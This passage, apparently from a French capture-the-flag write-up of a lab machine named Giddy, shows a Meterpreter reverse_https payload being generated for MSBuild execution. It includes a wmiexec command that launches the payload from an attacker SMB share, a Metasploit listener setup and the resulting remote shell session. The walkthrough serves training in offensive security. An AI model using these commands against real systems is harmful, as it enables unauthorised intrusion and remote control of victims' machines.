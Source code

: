 ```plain
    (99)    Quit

Select a task: 2

Payload Selection:

    (1) windows/meterpreter/reverse_tcp
    (2) windows/meterpreter/reverse_http
    (3) windows/meterpreter/reverse_https

Select payload: 3
Enter Your Local IP Address (10.0.2.15): 10.10.13.82
Enter the listener port (443): 443
[*] Generating RAW shellcode Payload...
[*] Generating MSF Resource Script...
[+] Metasploit resource script written to msbuild_nps.rc
[+] Payload written to msbuild_nps.xml

1. Run "msfconsole -r msbuild_nps.rc" to start listener.
2. Choose a Deployment Option (a or b): - See README.md for more information.
  a. Local File Deployment:
    - %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe <folder_path_here>\msbuild_nps.xml
  b. Remote File Deployment:
    - wmiexec.py <USER>:'<PASS>'@<RHOST> cmd.exe /c start %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attackerip>\<share>\msbuild_nps.xml
3. Hack the Planet!!
```

Il ne reste plus qu'à mettre un multi/handler en écoute et passer le csproj généré à MSBuild :  

```plain
c:/windows/Microsoft.NET/Framework/v4.0.30319/MSBuild.exe  \\10.10.13.82\public\msbuild_nps.xml
```

```plain
msf exploit(multi/handler) > use multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf exploit(multi/handler) > set LHOST 10.10.13.82
LHOST => 10.10.13.82
msf exploit(multi/handler) > set LPORT 443
LPORT => 443
msf exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 12.
msf exploit(multi/handler) >
[*] Started HTTPS reverse handler on https://10.10.13.82:443
[*] https://10.10.13.82:443 handling request from 10.10.10.104; (UUID: mhbtagrf) Encoded stage with x86/shikata_ga_nai
[*] https://10.10.13.82:443 handling request from 10.10.10.104; (UUID: mhbtagrf) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (10.10.13.82:443 -> 10.10.10.104:50308) at 2018-09-11 21:23:12 +0200

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: GIDDY\Stacy
```
